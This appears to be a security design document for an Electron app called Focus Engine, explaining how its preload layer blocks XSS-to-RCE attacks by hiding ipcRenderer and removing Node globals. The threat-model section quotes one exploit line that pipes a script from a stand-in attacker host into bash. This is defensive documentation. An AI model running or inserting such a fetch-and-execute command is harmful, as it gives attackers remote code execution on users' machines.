

# Preload Security Boundaries & RCE Defense

## 1. Threat Modeling & The Electron Attack Surface

In a desktop application built on Electron, the primary security threat is **Remote Code Execution (RCE) via Cross-Site Scripting (XSS)**.
- If an application renders user-controlled strings (e.g. window titles, visited URLs, or clipboard data) without sanitization, an attacker could craft an XSS payload.
- In a misconfigured Electron app where `nodeIntegration: true` or `ipcRenderer` is exposed globally (`window.ipcRenderer = ipcRenderer`), an XSS attacker can execute:
  ```javascript
  // Disastrous exploit if ipcRenderer or Node is exposed:
  window.require('child_process').exec('curl http://malicious.com/payload | bash')
  ```

Focus Engine completely neutralizes this attack vector by establishing a defense-in-depth security boundary at the Preload layer.



---

## 2. Security Boundaries Enforced by Focus Engine

### 1. `ipcRenderer` is Completely Hidden
`ipcRenderer` is never attached to `window`.
The frontend cannot call:
- `ipcRenderer.send()`
- `ipcRenderer.invoke()` with arbitrary channel strings.
- `ipcRenderer.removeAllListeners()`
The renderer can only invoke the pre-defined, typed methods on `window.focusEngineAPI`.

### 2. No Node.js Globals in Renderer
Inside the React application:
- `window.require` is `undefined`.
- `process` (except for basic environment flags) is `undefined`.
- `Buffer`, `global`, `__dirname`, and `__filename` are `undefined`.

### 3. Strict Channel Whitelisting
The main process only listens on explicit channel strings (`session:save`, `blocking:start`, etc.). Even if a malicious script discovered a vulnerability in the React layer, it cannot send arbitrary IPC messages to execute commands or read arbitrary files.

### 4. Input Validation & Type Safety
Any user-supplied string passed through Preload (e.g. a domain name in `addBlockedDomain` or an application name in `addBlacklistedApp`) is subjected to:
- Frontend trimming and regex validation in `Settings.tsx`.
- Type assertion in `src/preload/index.ts`.
- Strict regex whitelist validation in `processManager.ts`:
  ```typescript
  const allowedPattern = /^[a-zA-Z0-9_-]+$/
  ```

---

## 3. What Must Never Be Exposed in Preload

To preserve application integrity, the following rules are strictly enforced:

| Prohibited Action | Risk / Vulnerability | Focus Engine Alternative |
|---|---|---|
| Exposing `ipcRenderer.invoke` directly | Attacker can invoke arbitrary, hidden main channels | Expose only explicit, named helper functions |
| Exposing `child_process.exec` | Instant Remote Code Execution (RCE) | All execution logic remains isolated in Main Process |
| Exposing raw database SQL queries | SQL Injection / Database corruption | Main process repositories execute parameterized queries |
| Exposing filesystem paths | Arbitrary file read/write | Paths are resolved internally in `src/main/utils/paths.ts` |
| Exposing electron `remote` module | Complete sandbox escape | `@electron/remote` is completely disabled |
